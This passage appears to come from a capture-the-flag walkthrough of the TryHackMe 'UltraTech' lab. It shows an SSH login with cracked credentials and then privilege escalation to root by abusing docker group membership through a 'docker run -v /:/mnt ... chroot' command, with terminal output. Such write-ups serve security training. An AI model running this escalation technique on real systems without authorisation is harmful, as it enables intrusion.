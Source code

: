 Next I decided to try the creds on the ssh service and I was able to connect to the machine as `r00t` (`r00t:n100906`):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/UltraTech/files]
└─$ ssh r00t@$IP
r00t@10.10.165.168's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

[REDACTED]

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$
~~~

#### Going root

Now we need the first nine characters of the root's ssh key, so we need to gain root access first. I checked my sudo permissions with `sudo -l` and we have none. When I ran `id` command, I realized that we are in a `docker` group:

~~~
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
                                                ^^^^^^^^^^^
~~~

Let's check the docker images:

~~~
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        2 years ago         15.8MB
~~~

As you can see, there is a `bash` container installed. I checked [GTFOBins](https://gtfobins.github.io/) for docker and it tells us that "It can be used to break out from restricted environments by spawning an interactive system shell". `bash` is installed, so let's try it. Here's the command:

~~~
docker run -v /:/mnt --rm -it bash chroot /mnt bash
~~~

I tested it and it worked:

~~~
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@129cdba9ac9e:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
~~~
